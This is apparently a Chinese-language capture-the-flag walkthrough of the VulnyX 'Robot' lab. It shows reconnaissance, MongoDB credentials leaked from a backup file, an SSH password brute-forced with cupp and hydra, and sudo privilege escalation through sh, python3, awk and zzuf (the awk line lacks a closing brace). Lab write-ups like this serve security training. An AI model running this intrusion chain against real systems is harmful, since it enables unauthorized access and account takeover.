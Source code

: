 # 环境

来自[vulnyx_Robot](https://vulnyx.com/#Robot)，图片隐写，获取网站泄露备份文件，获取mongo连接账号，拿到关键信息生成字典爆破密码

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240815172643144](image/image-20240815172643144.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.39
```

![image-20240815172758521](image/image-20240815172758521.png)

## 目录扫描

```bash
dirb http://192.168.88.39
```

![image-20240815173852743](image/image-20240815173852743.png)

没有结果，发现只有一张图片

# web渗透

## 图片分析

```bash
exiftool image.jpg
```

![image-20240815174020833](image/image-20240815174020833.png)

发现可疑路径，类似备份目录

## 目录扫描

```bash
dirb http://192.168.88.39 -X.bak  #扫描指定后缀文件
```

![image-20240815180221485](image/image-20240815180221485.png)

查看文件http://192.168.88.39/B4ckUp_3LLi0t/connect.bak

![image-20240815180336035](image/image-20240815180336035.png)

发现mongo的账号和密码，目标开放mongo端口`27017`

## 连接mongo

使用Navicat连接

![image-20240815182214010](image/image-20240815182214010.png)

或者安装mongo命令行工具

```bash
sudo apt install mongodb-client
mongo --host 192.168.88.39 -u mongo -p m0ng0P4zz elliot
show dbs
db.elliot.find()
```

有用信息

![image-20240815190150990](image/image-20240815190150990.png)

## 生成字典

```bash
cupp -i
```

![image-20240815190238802](image/image-20240815190238802.png)

## 爆破ssh

```bash
hydra -l elliot -P elliot.txt ssh://192.168.88.39
密码:toillE71986
toillE71986
```

![image-20240815185929071](image/image-20240815185929071.png)

## 提权

```bash
ssh elliot@192.168.88.39
sudo -l
sudo -u darlene /usr/bin/sh
```

![image-20240815192732494](image/image-20240815192732494.png)

python3提权

```bash
sudo -l
sudo -u angela /usr/bin/python3 -c "import os;os.system('/bin/bash')"
```

![image-20240815193302675](image/image-20240815193302675.png)

awk提权

```bash
sudo -l
sudo -u tyrell /usr/bin/awk 'BEGIN{system("/bin/bash")'
```

![image-20240815212449823](image/image-20240815212449823.png)

zuff提权

```bash
sudo -l
sudo -u root /usr/bin/zzuf bash
```

![image-20240815212944130](image/image-20240815212944130.png)
